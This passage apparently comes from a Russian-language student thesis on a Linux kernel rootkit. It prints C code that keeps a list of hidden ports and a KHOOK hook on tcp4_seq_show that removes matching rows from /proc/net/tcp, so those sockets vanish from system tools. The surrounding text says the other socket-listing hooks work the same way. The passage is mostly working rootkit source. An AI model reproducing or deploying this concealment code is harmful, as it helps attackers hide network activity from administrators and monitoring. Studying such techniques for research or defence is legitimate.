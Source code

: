 \begin{lstlisting}[label=lst:a4, caption={Сокрытие сетевых сокетов}, language=c]
#include <linux/in.h>
#include <linux/in6.h>
    
struct hidden_port {
    unsigned int port;
    struct list_head list;
};
    
struct list_head hidden_port_list;

void net_port_hide(unsigned int port) {
    struct hidden_port *hp;

    hp = kmalloc(sizeof(*hp), GFP_KERNEL);
    if (!hp)
        return;

    hp->port = port;
    list_add(&hp->list, &hidden_port_list);
}

void net_port_show(unsigned int port) {
    struct hidden_port *hp;

    list_for_each_entry (hp, &hidden_port_list, list) {
        if (hp->port == port) {
            list_del(&hp->list);
            kfree(hp);
            return;
        }
    }
}

int is_port_hidden(unsigned int port) {
    struct hidden_port *hp;

    list_for_each_entry (hp, &hidden_port_list, list)
        if (hp->port == port)
            return 1;

    return 0;
}

void toggle_port_invisability(unsigned int port) {
    if (is_port_hidden(port))
        net_port_show(port);
    else
        net_port_hide(port);
}
\end{lstlisting}


Функция для перехвата tcp4\_seq\_show определена в листинге 3.6. Функции для перехвата остальных системных вызовов для отображения сокетов аналогичны.

\begin{lstlisting}[label=lst:a6, caption={Перехват tcp4\_seq\_show}, language=c]
KHOOK_EXT(int, tcp4_seq_show, struct seq_file *, void *);
static int khook_tcp4_seq_show(struct seq_file *seq, void *v) {
    int ret;
    char port[12];
    struct hidden_port *hp;

    ret = KHOOK_ORIGIN(tcp4_seq_show, seq, v);

    list_for_each_entry (hp, &hidden_port_list, list) {
        sprintf(port, ":%04X", hp->port);

        if (strnstr(
                    seq->buf + seq->count - PROC_NET_ROW_LEN,
                    port,
                    PROC_NET_ROW_LEN
                )) {
            seq->count -= PROC_NET_ROW_LEN;
            break;
        }
    }

    return ret;
}
\end{lstlisting}



В данном разделе был выбран язык программирования, а также рассмотрена реализация программного обеспечения